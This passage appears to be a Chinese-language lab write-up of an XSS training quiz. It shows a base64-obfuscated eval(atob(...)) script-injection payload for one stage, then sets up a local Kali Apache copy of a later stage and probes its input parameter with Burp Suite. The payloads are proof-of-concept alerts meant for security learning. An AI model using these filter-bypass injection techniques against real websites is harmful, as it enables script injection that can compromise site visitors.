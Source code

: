 在控制台中执行

```
eval(atob("YWxlcnQoZG9jdW1lbnQuZG9tYWluKTs="))
```

> 成功执行

提交代码

```
"><script>eval(atob("YWxlcnQoZG9jdW1lbnQuZG9tYWluKTs="))</script>
```

> 成功注入

### 1.2.7 Stage #11 绕过过滤 script 和 on 关键字的 XSS 注入

> https://xss-quiz.int21h.jp/stage11th.php
>
> 无法访问

切换到站点根目录

```
┌──(root㉿Kali-24)-[~]
└─# cd /var/www/html/
```

上传 style.css 和 stage11th.php 到 kali，搭建页面

启动 apache2

    ┌──(root㉿Kali-24)-[~]
    └─# systemctl start apache2.service

浏览器访问

> http://192.168.1.24/stage11th.php

**分析页面与用户交互的可控参数**

提交 hello

```
<input type="text" name="p1" size="50" value="hello">
```

打开 burpsuite 拦截

```
p1=hello&submit=Search
```

> 可控参数只有 p1

**查找页面的回显**

关闭拦截，提交 ">hello

发现 hello"> 逃逸

```
<input type="text" name="p1" size="50" value="">
hello"&gt; 
```
